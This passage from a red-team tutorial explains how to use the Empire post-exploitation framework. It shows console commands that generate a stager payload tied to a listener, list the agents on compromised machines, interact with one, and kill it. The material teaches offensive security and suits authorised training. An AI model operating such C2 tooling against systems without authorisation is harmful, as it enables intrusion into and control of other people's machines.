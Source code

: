 Once configured, this will create new files within `/tmp/http_hop` which should be replicated on the compromised server when we serve the files.

#### Stagers

Stagers are Empire's payloads and are used to connect back to waiting listeners, creating an agent when executed.  These can be generated via Empire CLI or Starkiller.  In most cases, a script will be generated which can then be uploaded to the target and executed.

From the main Empire prompt, type:

```console
(Empire) > usestager
```

There are a variety of options, but `multi/handler` is often a good go-to.

As with the listener, we use the `set` command to set options and `execute` to generate a payload.

```console
(Empire: usestager/multi/launcher) > set OPTION

# E.g.: set Listener CLIHTTP
(Empire: usestager/multi/launcher) > set Listener CLIHTTP
[*] Set Listener to CLIHTTP
```

#### Agents

When an agent is obtained on a target machine, you can view it through the `agents` command:

```console
(Empire) > agents
```

To then interact with an agent, use the `interact` command followed by the name of the agent:

```console
(Empire: agents) > interact AGENT_NAME

# E.g.
(Empire: agents) > interact 22HGTDFU
[*] Task 1 results received
root
(Empire: 22HGTDFU) > 
```

We can then use the `help` command to view the full list of available commands:

```console
(Empire: AGENT_NAME) > help 
```

Once we have finished, we use the `back` command to switch contexts back to the agents menu and then subsequently use the `kill` command with the agent's name to kill the agent:

```console
(Empire: AGENT_NAME) > back
(Empire: agents) > kill AGENT_NAME
```
